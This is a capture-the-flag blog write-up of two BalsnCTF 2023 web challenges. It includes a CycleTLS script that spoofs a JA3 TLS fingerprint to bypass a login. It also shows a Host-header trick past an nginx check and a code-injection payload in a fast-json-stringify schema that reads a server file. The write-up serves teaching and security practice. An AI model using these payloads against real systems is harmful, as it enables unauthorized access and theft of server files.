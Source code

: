 ```yaml
---
title: "balsnCTF23"
date: 2023-10-12T19:46:31+02:00
tags: ["web","ja3","serialization"]
categories: ["ctf"]
author: "Ayman Boulaich"
showToc: false
TocOpen: false
draft: false
hidemeta: false
comments: false
summary: "I have had the pleasure of participating on balsnCTF. This CTF was so funny and I have been able to learn a lot. In this writeup I am gonna write about 0FA and SaaS."
description: "I have had the pleasure of participating on balsnCTF. This CTF was so funny and I have been able to learn a lot. In this writeup I am gonna write about 0FA and SaaS."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: false
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## INDEX

- [0FA](https://pwndside.github.io/posts/balsnctf23/#0fa)
- [SaaS](https://pwndside.github.io/posts/balsnctf23/#saas)

## 0FA

![Untitled](/CTF/balsnctf23-1.png)

This challenge was so fun as easy. The main part of this level is the JA3 spoof.

```php
function fingerprint_check() {
    if($_SERVER['HTTP_SSL_JA3'] !== FINGERPRINT) 
        die("Login Failed!"); 
}
```

Taking a look to the source code we can see that after we submit a username `fingerprint_check()` close our connection if we don’t have a specific JA3

JA3 is **a method to fingerprint a SSL/TLS client connection based on fields in the Client Hello message from the SSL/TLS handshake**.

So basically, we need to impersonate a JA3 fingerprint.

There is no way to do it via headers on a burp request but hopefully a JavaScript library named CycleTLS helps to send a request with a custom JA3.

I built the next script in typescript in order to log as admin and get the flag.

```tsx
const initCycleTLS = require('cycletls');
// Typescript: import initCycleTLS from 'cycletls';

(async () => {
    // Initiate CycleTLS
    const cycleTLS = await initCycleTLS()

    // Send request
    const response = await cycleTLS(
        'https://localhost:8787/flag.php',
        {
            body: 'username=admin',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
            userAgent: 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0'
        },
        'post'
    )

    console.log(response)

    // Cleanly exit CycleTLS
    cycleTLS.exit()
})()
```

> BALSN{Ez3z_Ja3__W4rmUp}
> 

## SaaS

![Untitled](/CTF/balsnctf23-2.png)

This challenge focuses on serialization which is present as a clue on the challenge name **Serialization as a Service.**

```jsx
const validatorFactory = require('@fastify/fast-json-stringify-compiler').SerializerSelector()()
const fastify = require('fastify')({
  logger: true,
})
const {v4: uuid} = require('uuid')
const FLAG = 'the old one'
const customValidators = Object.create(null, {}) // no more p.p.
const defaultSchema = {
  type: 'object',
  properties: {
    pong: {
      type: 'string',
    },
  },
}
fastify.get(
  '/',
  {
    schema: {
      response: {
        200: defaultSchema,
      },
    },
  },
  async () => {
    return {pong: 'hi'}
  }
)
fastify.get('/whowilldothis/:uid', async (req, resp) => {
  const {uid} = req.params
  const validator = customValidators[uid]
  if (validator) {
    return validator({[FLAG]: 'congratulations'})
  } else {
    return {msg: 'not found'}
  }
})

fastify.post('/register', {}, async (req, resp) => {
  // can only access from internal.
  const nid = uuid()
  const schema = Object.assign({}, defaultSchema, req.body)
  customValidators[nid] = validatorFactory({schema})
  return {route: `/whowilldothis/${nid}`}
})
fastify.listen({port: 3000, host: '0.0.0.0'}, function (err, address) {
  if (err) {
    fastify.log.error(err)
    process.exit(1)
  }
  // Server is now listening on ${address}
})
```

```docker
server {
    listen 80 default_server;
    return 404;
}
server {
    server_name *.saas;
    if ($http_host != "easy++++++") { return 403 ;}
    location ~ {
      proxy_pass http://backend:3000;
    }
}
```

The first thing we need to do is to bypass the nginx check in order to be able to see the site hosted on port 3000.

**server_name** has to be set to `*.saas` and **http.host** to `easy++++++` we can do that by changing it via BurpSuite.

```html
GET http://any.saas/ HTTP/1.1
Host: easy++++++
```

The code uses the **fastify** framework and the **fast-json-stringify** library to serialize schemas dynamically.

The next security [notice](https://fastify.dev/docs/latest/Reference/Validation-and-Serialization/#--security-notice) of the fastify doc gives us an approach of where is the main problem of this challenge.

Basically if a dev doesn’t treat the schema definition as a code and let the users create schemas with untrusted output may lead to undefined behavior.

If we check the source we have a endpoint called register which creates a schema merging the default one and the request body and creates a custom validator with that schema.

`/whowilldothis/:uid` endpoint with the corresponding uid, we can see how works his validator.

Googling I found a HackerOne which talks about a RCE vuln on the **fast-json-stringify** library. This reports helps me to find a RCE on this piece of code:

```jsx
// handle extraneous required fields
  for (const requiredProperty of required) {
    if (requiredWithDefault.indexOf(requiredProperty) !== -1) continue
    code += `if (obj['${requiredProperty}'] === undefined) throw new Error('"${requiredProperty}" is required!')\n`
  }
```

If we have a validator with a required property and if we are validating a schema without that property an error would be trigged.

As the `/whowilldothis/:uid` doesn’t validate a schema with the required property we can put this property via register endpoint and put a payload on it.

```html
POST http://.saas/register HTTP/1.1
Host: easy++++++
Content-Type: application/json
Content-Length: 101

{
  "required": ["'+global.process.mainModule.constructor._load('fs').readFileSync('/flag')+'"]
}

HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Thu, 12 Oct 2023 17:01:15 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 63
Connection: close

{"route":"/whowilldothis/1b00e70e-cea0-4003-9179-752e3179414e"}
```

![Untitled](/CTF/balsnctf23-3.png)

![Untitled](/CTF/balsnctf23-4.png)

> BALSN{N0t_R3ally_aN_u3s_Ca53}
>

**Thank you for reading, and happy hacking! 😄**
